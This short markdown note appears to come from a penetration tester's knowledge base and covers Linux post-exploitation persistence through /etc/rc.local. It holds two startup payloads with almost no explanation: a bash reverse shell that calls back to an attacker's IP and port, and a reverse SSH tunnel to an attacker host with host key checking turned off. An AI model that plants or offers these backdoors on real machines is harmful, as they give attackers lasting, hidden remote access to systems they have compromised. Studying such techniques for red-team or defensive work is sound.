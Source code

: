 # Startup

## 01 - Callback Shell

```
$ cat /etc/rc.local
#!/bin/sh -e
/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
exit 0
```

## 02 - Reverse SSH Tunneling

Refer to this [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x08 - Maintaining Access/Persistence/Linux/Remote Login/SSH/Manual/Living off the Land|section]] for more context.

```
$ cat /etc/rc.local
#!/bin/sh -e
nohup ssh -i /tmp/keys/id_rsa -NTfCqR [127.0.0.1]:<SOCKS_Proxy> -o "UserKnownHostsFile=/dev/null StrictHostKeyChecking=no" <username>@<attacker_IP>
exit 0
```

---
## References

- [[Linux Post Exploitation Persistence References]]

- [[04 - Remote Port Forwarding|SSH: Remote Port Forwarding]]